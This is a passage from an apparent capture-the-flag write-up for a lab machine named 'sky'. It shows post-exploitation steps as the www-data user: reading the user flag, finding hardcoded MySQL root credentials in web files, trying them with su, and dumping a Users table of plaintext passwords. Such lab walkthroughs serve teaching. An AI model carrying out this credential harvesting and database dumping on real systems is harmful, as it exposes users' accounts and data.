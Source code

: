 ```bash
www-data@sky:/$ cat /home/webdeveloper/user.txt
REDACTED
```

I had my first flag. But I could not read the other files in webdeveloper's home directory.

I looked in the `/var/www/html` folder and found multiple files with the database credentials. 

```php
$con = mysqli_connect('localhost','root','REDACTED');
$db = mysqli_select_db($con, 'SKY');
```

I tried to use the password to su as webdeveloper and root. But the password failed. 

I then connected to the database. 

```bash
www-data@sky:/$ mysql -u root -pREDACTED
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
```

```sql
mysql> Show Databases;
+--------------------+
| Database           |
+--------------------+
| SKY                |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use SKY;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> Show Tables;
+---------------+
| Tables_in_SKY |
+---------------+
| Users         |
+---------------+
1 row in set (0.00 sec)

mysql> Select * From Users;
+----+---------------+----------+------------+
| id | username      | password | phone      |
+----+---------------+----------+------------+
|  2 | admin@sky.thm | 123456   | 5486214569 |
|  7 | test@test.com | 123456   | 5555555555 |
+----+---------------+----------+------------+
2 rows in set (0.00 sec)
```
